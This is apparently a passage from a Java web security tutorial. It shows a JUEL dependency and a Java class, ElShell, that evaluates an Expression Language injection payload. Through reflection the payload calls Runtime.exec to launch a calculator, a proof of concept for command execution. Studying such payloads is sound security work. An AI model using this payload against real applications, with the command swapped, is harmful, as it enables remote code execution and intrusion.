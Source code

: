 ```xml
    <artifactId>juel-impl</artifactId>
    <version>2.2.7</version>
</dependency>
```

```java
package h3rmek1t.javawebsecurity;

import de.odysseus.el.ExpressionFactoryImpl;
import de.odysseus.el.util.SimpleContext;

import javax.el.ExpressionFactory;
import javax.el.ValueExpression;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/18 12:05 上午
 */
public class ElShell {

    public static void main(String[] args) {

        ExpressionFactory expressionFactory = new ExpressionFactoryImpl();
        SimpleContext simpleContext = new SimpleContext();
        String shell = "${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'open -a Calculator')}";
        ValueExpression valueExpression = expressionFactory.createValueExpression(simpleContext, shell, String.class);
        System.out.println(valueExpression.getValue(simpleContext));
    }
}
```

<div align=center><img src="./images/4.png"></div>
